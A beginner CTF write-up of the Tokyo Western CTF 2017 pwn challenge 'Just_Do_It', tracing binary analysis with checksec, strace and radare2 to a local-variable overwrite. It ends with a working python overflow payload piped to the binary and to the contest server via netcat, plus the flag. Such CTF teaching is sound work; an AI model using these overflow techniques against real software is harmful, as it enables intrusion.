


# Just_Do_It (pwn)
### Tokyo Western CTF 2017

```
Do it! Do it!

nc pwn1.chal.ctf.westerns.tokyo 12345
(Alternative port: nc pwn1.chal.ctf.westerns.tokyo 12482)
```
Binary: [just_do_it](just_do_it)

## Writeup (For Beginners)

After running the Unix 'file' command and 'strings' on the binary. I found out this was a 32-bit x86 binary and I found the following interesting strings.


So it looked like I would need to enter a password and that the program would be opening a file.

Before running the binary I ran [checksec.sh](https://github.com/slimm609/checksec.sh). I found there was no canary but NX was enabled. There was partial RELRO, No PIE, and no Fortify Source. This told me it was more than likely a buffer overflow vulnerability.

Next I ran the binary and got the following message.


So I ran strace to see what file it was looking for.



From that I knew I needed a file named flag.txt in the directory where I am running the binary from. So I created [flag.txt](flag.txt).


A pretty simple program. I then tried the string "P@SSW0RD" I saw earlier from running strings. 


So it wasn't as simple as finding the password. Next I took a quick look at the assembly using [Radare](https://github.com/radare/radare2).
```
r2 -AAA ./just_do_it
:> afl
0x080483f8    3 35           sym._init
0x08048430    1 6            sym.imp.strcmp
0x08048440    1 6            sym.imp.fgets
0x08048450    1 6            sym.imp.perror
0x08048460    1 6            sym.imp.puts
0x08048470    1 6            sym.imp.exit
0x08048480    1 6            sym.imp.__libc_start_main
0x08048490    1 6            sym.imp.setvbuf
0x080484a0    1 6            sym.imp.fopen
0x080484b0    1 6            sub.__gmon_start___252_4b0
0x080484c0    1 33           entry0
0x080484f0    1 4            sym.__x86.get_pc_thunk.bx
0x08048500    4 43           sym.deregister_tm_clones
0x08048530    4 53           sym.register_tm_clones
0x08048570    3 30           sym.__do_global_dtors_aux
0x08048590    4 43   -> 40   sym.frame_dummy
0x080485bb    9 337          sym.main
0x08048710    4 93           sym.__libc_csu_init
0x08048770    1 2            sym.__libc_csu_fini
0x08048774    1 20           sym._fini
:> VV@main
```
I saw the flag.txt file being opened and then saw a call to fgets where the contents of flag.txt file were being read into obj.flag.


Next I got the address of obj.flag and saved it.
```
:> px/xw @ obj.flag
0x0804a080  00
```

I scrolled down to see what else the program was doing and saw where it prompted us for our password. I then checked to see how it was retrieving our password. To see if there was a buffer overflow.


From this information I saw that it read in 0x20 bytes using fgets and stored my input in $ebp-0x20 or as Radare puts it local_20h. *For more information see man pages for fgets and review x86 function calls if needed.*

It didn't appear to have a buffer overflow here. At least I couldn't get control over the return address on the stack because I could only read in 0x20 bytes and thats how many bytes I had between my buffer and $ebp. However, I could overwrite a local variable and after looking at the code snippet below I knew I had to overwrite $ebp-0xc.


From this I saw that if the password was correct $ebp-0xc was overwritten by the Correct password message but if the password was incorrect it contained what was in it before, the invalid password message. Since the value inside of flag.txt was already being loaded into a constant known address I knew I had to overwrite $ebp-0xc with the address of obj.flag (0x0804a080) and then the flag would be printed. So, I did some advanced math 0x20-0xc = 0x14 and issued the following command.
```
python -c 'print "A"*0x14 + "\x80\xa0\x04\x08" ' | ./just_do_it
```
This printed out the contents of flag.txt. So all I needed to do was.

```
python -c 'print "A"*0x14 + "\x80\xa0\x04\x08" ' | nc pwn1.chal.ctf.westerns.tokyo 12345
```
TWCTF{pwnable_warmup_I_did_it!}
